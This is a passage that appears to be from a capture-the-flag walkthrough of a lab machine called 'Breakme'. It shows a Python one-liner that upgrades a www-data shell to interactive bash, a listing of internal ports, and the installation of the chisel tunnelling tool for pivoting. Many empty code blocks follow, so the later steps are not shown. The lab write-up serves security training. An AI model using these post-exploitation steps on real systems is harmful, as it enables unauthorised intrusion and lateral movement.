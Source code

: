 <pre><code>$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@Breakme:/home/john$ </code></pre>

<pre><code>www-data@Breakme:/home/john$ ss -tlnp
ss -tlnp
State  Recv-Q Send-Q Local Address:Port Peer Address:PortProcess
LISTEN 0      80         127.0.0.1:3306      0.0.0.0:*          
LISTEN 0      4096       127.0.0.1:9999      0.0.0.0:*          
LISTEN 0      128          0.0.0.0:22        0.0.0.0:*          
LISTEN 0      511                *:80              *:*          
LISTEN 0      128             [::]:22           [::]:*          </code></pre>

<pre><code>> go install github.com/jpillora/chisel@latest</code></pre>

<pre><code>> ls ~/go/bin/
chisel*</code></pre>

<pre><code></code></pre>

<pre><code></code></pre>

<pre><code></code></pre>

<pre><code></code></pre>

<pre><code></code></pre>

<pre><code></code></pre>

<pre><code></code></pre>

<pre><code></code></pre>

<pre><code></code></pre>

<pre><code></code></pre>

<pre><code></code></pre>

<pre><code></code></pre>

<pre><code></code></pre>

<pre><code></code></pre>

<pre><code></code></pre>

<pre><code></code></pre>

<pre><code></code></pre>

<pre><code></code></pre>

<pre><code></code></pre>

<pre><code></code></pre>

<pre><code></code></pre>

<pre><code></code></pre>

<pre><code></code></pre>
